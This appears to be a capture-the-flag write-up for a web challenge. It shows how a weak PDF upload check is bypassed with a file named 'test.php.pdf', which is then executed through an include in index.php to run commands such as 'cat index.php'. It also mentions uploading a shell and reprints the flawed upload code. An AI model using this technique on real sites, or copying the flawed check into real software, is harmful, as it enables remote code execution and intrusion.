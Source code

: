 
after navigating through tabs figure out the system looks like :
/
├── index.php
├── home
├── about
├── jobs
├── data 'directory'

and any file passed to index.php? will be printed out on it . 

upload page and is looks like it checks if it ends with .pdf file 
1-  make small php file 

![image](https://user-images.githubusercontent.com/67979878/129133365-da552e3e-0190-453d-9818-3e9b93785c7a.png)

2- change extension to .php.pdf 

3-upload it successfully 

4-it will redirect you to  :
`http://18.192.3.151/join-team/index.php/data/test.php.pdf`
5- execute it by :
we pass the pdf file as parameter so it will get executed into the index.php file 
`http://18.192.3.151/join-team/index.php?data/test.php.pdf`


you can upload a shell or just read the index.php file 

in my case:

http://18.192.3.151/join-team/?data/test.php.pdf&cmd=cat index.php

now we can read flag at page source :)


code after clearing flag ;) , to understand how it checks file upload 
```
<?php 
if($_FILES){

  $cv = $_FILES['cv'];
  if($cv['type'] != 'application/pdf'){
    echo 'Only PDF Document Allowed';
    exit;
  }
  
  //check extention
  $ext = pathinfo($cv['name'], PATHINFO_EXTENSION);
  if($ext != 'pdf'){
    echo 'Only pdf Extention Are Allowed';
    exit;
  }
  
  move_uploaded_file($cv['tmp_name'], 'data/'.$cv['name']);

  echo 'Your cv has been uploaded successfully in <a href="data/'.$cv['name'].'">'.$cv['name'].'</a>';
  exit;
}

?>

```
# done

